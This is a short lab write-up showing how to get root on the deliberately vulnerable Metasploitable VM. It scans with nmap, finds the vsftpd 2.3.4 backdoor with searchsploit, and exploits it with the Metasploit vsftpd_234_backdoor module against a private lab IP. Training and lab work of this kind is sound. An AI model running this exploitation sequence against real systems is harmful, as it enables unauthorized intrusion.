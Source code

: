  ## Metasploitable Writeup ##

 
 **Metasploitable**   is a virtual machine is an intentionally vulnerable version of Ubuntu Linux designed for testing security tools and demonstrating common vulnerabilities.
###  Gain root access on this machine:  ###

Login to your kali or any other Linux distribution, in my case I use Kali Linux 

•	Login to the Metasploitable machine 

• Login username and password, in this case, is: ***msfadmin***

  ![2](https://user-images.githubusercontent.com/58820314/107451148-60780980-6b4f-11eb-8a33-ce0c5302154b.png)

•	Check the IP address for this machine by : ***ifconfig***

![1](https://user-images.githubusercontent.com/58820314/107451122-52c28400-6b4f-11eb-9a93-48b02d9ffd6b.png)

•	Now we need to make sure that we can ping on the machine by using this command **ping 192.168.3.130** where the IP of the machine is **192.168.3.130** and here no packet loss which means the connection is successful. 

![3](https://user-images.githubusercontent.com/58820314/107451152-6110a000-6b4f-11eb-942f-2e2e8cfd6c75.png)


•	Next step is to doing scanning for open ports and for service version using nmap and the command : **nmap -sV 192.168.3.130**

![6 ](https://user-images.githubusercontent.com/58820314/107451162-64a42700-6b4f-11eb-8ff9-8352b3068cee.png)

You can test any service here and for me, I used **(vsftpd 2.3.4)**

The File Transfer Protocol (FTP) is a standard network protocol used for the transfer of computer files between a client and server on a computer network, vsftpd, which stands for "Very Secure FTP Daemon”, is an FTP server for Unix-like systems, including Linux.

•	In this step we search for vulnerability on this service using this command  **serachsploit vsftpd**

![4](https://user-images.githubusercontent.com/58820314/107451158-62da6380-6b4f-11eb-83a1-641787528b49.png)

Here we found multiple vulnerabilities but we will use a specific one in order to gain access:  **vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)|unix/remote/17491.rb**

•	Now we need to open the **Metasploit framework** to use this vulnerability but we should start the database using these commands

1.	**sudo msfdb start**

2.	**msfconsole**

![5](https://user-images.githubusercontent.com/58820314/107451159-6372fa00-6b4f-11eb-88e0-e6cf62ae70b0.png)

•	next step is to search for the vsftpd on metaspoloit using this command  **search vsftpd**

![7](https://user-images.githubusercontent.com/58820314/107451166-65d55400-6b4f-11eb-8aa2-e213136ac1a3.png)

•	Here we found the backdoor to gain access which is  **exploit/unix/ftp/vsftpd_234_backdoor**

•	We going to use this backdoor using this command  **use exploit/unix/ftp/vsftpd_234_backdoor**

•	we have to see the options for this backdoor by this command **options** 

•	next step is to identify the **RHOST IP** (the metasploitable IP) by this command **set rhosts 192.168.3.130**

•	the final step is to run our script by this command 

**run**  


